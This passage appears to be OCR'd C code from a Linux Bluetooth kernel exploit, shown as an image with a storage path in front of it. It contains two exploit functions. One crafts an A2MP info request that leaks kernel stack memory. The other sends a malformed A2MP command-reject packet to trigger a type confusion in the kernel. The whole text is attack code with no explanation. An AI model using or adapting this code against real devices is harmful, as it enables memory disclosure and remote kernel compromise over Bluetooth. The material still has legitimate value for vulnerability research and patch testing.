     static uint64_t leak_kstack(void) {
      printf("[*] Leaking A2MP kernel stack memory...\n");

      struct {
        l2cap_hdr hdr;
        a2mp_hdr amp_hdr;
        a2mp_info_req info_req;
      } info_req = {0};
      info_req.hdr.len = htobs(sizeof(info_req) - L2CAP_HDR_SIZE);
      info_req.hdr.cid = htobs(AMP_MGR_CID);
      info_req.amp_hdr.code = A2MP_INFO_REQ;
      info_req.amp_hdr.ident = L2CAP_IDENT;
      info_req.amp_hdr.len =
          htobs(sizeof(info_req) - L2CAP_HDR_SIZE - sizeof(a2mp_hdr));
      // Use a dummy id to make hci_dev_get() fail.
      info_req.info_req.id = 0x42;
      hci_send_acl_data(hci_sock, hci_handle, &info_req, sizeof(info_req), 2);

      while (1) {
        uint8_t buf[256] = {0};
        if (read(hci_sock, buf, sizeof(buf)) < 0) {
          perror("[-] read");
          exit(1);
        }
        if (buf[0] == HCI_ACLDATA_PKT) {
          l2cap_hdr *l2_hdr = (l2cap_hdr *)&buf[5];
          if (btohs(l2_hdr->cid) == AMP_MGR_CID) {
            a2mp_hdr *amp_hdr = (a2mp_hdr *)&buf[9];
            if (amp_hdr->code == A2MP_INFO_RSP)
              return *(uint64_t *)&buf[21];
          }
        }
      }

      return 0;
    }

    static void trigger_type_confusion(void) {
      struct {
        l2cap_hdr hdr;
        uint16_t ctrl;
        a2mp_hdr amp_hdr;
        a2mp_command_rej cmd_rej;
        uint16_t fcs;
      } cmd_rej = {0};
      cmd_rej.hdr.len = htobs(sizeof(cmd_rej) - L2CAP_HDR_SIZE);
      cmd_rej.hdr.cid = htobs(AMP_MGR_CID);
      cmd_rej.ctrl = 0xffff;
      cmd_rej.amp_hdr.code = A2MP_COMMAND_REJ;
      cmd_rej.amp_hdr.ident = L2CAP_IDENT;
      cmd_rej.amp_hdr.len = htobs(sizeof(cmd_rej) - L2CAP_HDR_SIZE -
                                  sizeof(a2mp_hdr) - sizeof(uint32_t));
      cmd_rej.cmd_rej.reason = 0;
      cmd_rej.fcs = crc16(0, &cmd_rej, sizeof(cmd_rej) - sizeof(uint16_t));
      hci_send_acl_data(hci_sock, hci_handle, &cmd_rej, sizeof(cmd_rej), 2);
    }
